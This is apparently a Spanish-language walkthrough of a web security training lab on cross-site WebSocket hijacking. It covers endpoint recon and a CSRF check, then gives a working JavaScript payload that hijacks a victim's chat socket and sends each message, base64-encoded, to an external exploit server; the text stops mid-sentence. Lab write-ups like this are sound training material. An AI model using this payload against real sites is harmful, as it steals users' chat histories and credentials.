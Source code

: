 El chat en vivo de este laboratorio es vulnerable al secuestro de WebSockets entre sitios (CSWSH). Para solucionar el problema, inicie sesión en la cuenta de la víctima.

Para ello, utilice el servidor de exploits proporcionado para ejecutar un ataque CSWSH que exfiltre el historial de chat de la víctima al servidor predeterminado de Burp Collaborator. El historial de chat contiene las credenciales de inicio de sesión en texto plano.


iniciamos el chat y de inmediato podemos recopilar información. sabemos que se llama `Hal Pline` y que su estatus es `CONNECTED`
![[Pasted image 20250721132918.png]]

analizando la solicitud vemos el encabezado `X-Frame-Options: SAMEORIGIN` indica que la página web solo puede ser mostrada en un frame si el sitio que intenta incrustarla está en la misma origen (dominio, esquema y puerto) que la página original
![[Pasted image 20250721133525.png]]

analizando todos los endpoints de la web nos damos cuenta que todos cuenta con la etiqueta `X-Frame-Options: SAMEORIGIN` pero al analizar la solicitud de un post encontramos un endpoints diferente. 
![[Pasted image 20250721133911.png]]

`https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` 
este endpoint nos lleva a una web de login donde podemos hacer una comprobación rápida para vulnerabilidades CSRF y logramos identificarla de la siguiente manera.
![[Pasted image 20250721134247.png]]

en el WebSockets History podemos ver el mensaje que hacemos al servidor y su contenido
![[Pasted image 20250721134538.png]]

y también el mensaje que regresa el servido
![[Pasted image 20250721134733.png]]

podemos enviar esta petición al repeater para ver como la respuesta y todos los mensajes que hemos intercambiado con el WebSocket
![[Pasted image 20250721162752.png]]

ahora bien. podemos ver que la dirección del websocket esta definida en la cabecera de respuesta del mensaje lo cual será útil para luego hacer nuestro ataque CSRF
![[Pasted image 20250721163118.png]]

por ultimo encontramos la funcion del chat 
![[Pasted image 20250721164204.png]]

necesitamos hacer algunas modificaciones al codigo.

```python
let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

newWebSocket.onopen = function (evt) {
writeMessage("system", "System:", "No chat history on record");
newWebSocket.send("READY");
res(newWebSocket);
}

newWebSocket.onmessage = function (evt) {
var message = evt.data;
};
```

no necesitamos el atributo `chatForm.getAttribute("action")` ya que este será la dirección de nuestro websocket. es decir la web de login que hemos encontrado.  tampoco vamos a necesitar el `writeMessage` porque no queremos escribir un mensaje. solo queremos enviarlo

```python
<script> 
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
	newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
	var message = evt.data;
	fetch(
	"https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
	);
}; 
</script>
```

enviamos nuestra carga útil usando el servidor proporcionado por la web
![[Pasted image 20250721171825.png]]

ahora analizamos los log del servidor y encontramos un 
![[Pasted image 20250721171806.png]]